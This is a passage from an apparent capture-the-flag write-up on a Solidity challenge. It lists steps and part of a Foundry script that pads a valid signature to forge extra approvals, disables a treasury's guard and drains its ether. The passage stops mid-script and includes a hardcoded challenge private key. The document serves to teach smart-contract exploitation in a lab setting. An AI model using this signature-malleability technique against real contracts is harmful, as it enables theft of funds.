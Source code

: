 To summarize, we can follow these steps to solve this challenge:

1. Create a `BodyGuard::Proposal` that calls `CartelTreasury::gistCartelDismiss`, which resets the `CartelTreasury::bodyGuard` value to the zero address.
2. Generate a valid signature using the player's private key, then create two signatures by appending random data to the valid one. Sort the signature hashes to ensure they are in increasing order.
3. Call the `BodyGuard::propose` function and pass the parameters obtained from the previous steps.
4. With `CartelTreasury::bodyGuard` now set to the zero address, we can bypass the `guard` modifier and call `CartelTreasury::doom` to drain all the ether stored in the contract.

The corresponding Foundry script for the solution is as follows:

```C
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// Foundry Library
import {Script, console} from "forge-std/Script.sol";

// Source Contract
import {Challenge} from "../src/challenge.sol";
import {CartelTreasury, BodyGuard} from "../src/CyberCartel.sol";

contract SolutionScript is Script {
    // Challenge Contract
    Challenge internal challenge;
    CartelTreasury internal cartel;
    BodyGuard internal bodyGuard;

    // Challenge Contract Address
    address internal challengeAddr;
    address internal cartelAddr;
    address internal bodyGuardAddr;
    address internal treasury;

    // Player Private Key and Address
    uint256 internal pk = 0xa7c3cc196ea8a05f49d06121e12299fb686b7b477ec0b048e8120fb5ac86d167;
    address internal player;

    // Digest Seed
    bytes public constant DIGEST_SEED = hex"80840397b652018080";

    function setUp() public {
        player = vm.addr(pk); // get the player's address

        challengeAddr = 0x2429A189dd3323AaD7Fc9c1E658Dd80c0ab12Fd5;
        challenge = Challenge(challengeAddr);

        treasury = address(challenge.TREASURY()); // get the treasury address

        cartel = CartelTreasury(payable(challenge.TREASURY()));
        bodyGuard = BodyGuard(address(cartel.bodyGuard()));
    }

    function run() public {
        vm.startBroadcast(pk);

        // Step 1
        // Create a `BodyGuard::Proposal` that calls `CartelTreasury::gistCartelDismiss`,
        // which resets the `CartelTreasury::bodyGuard` value to the zero address.
        BodyGuard.Proposal memory proposal = BodyGuard.Proposal({
            expiredAt: uint32(block.timestamp) + 1000,
            gas: uint24(player.balance / 10),
            nonce: 1,
            data: abi.encodeWithSignature("gistCartelDismiss()")
```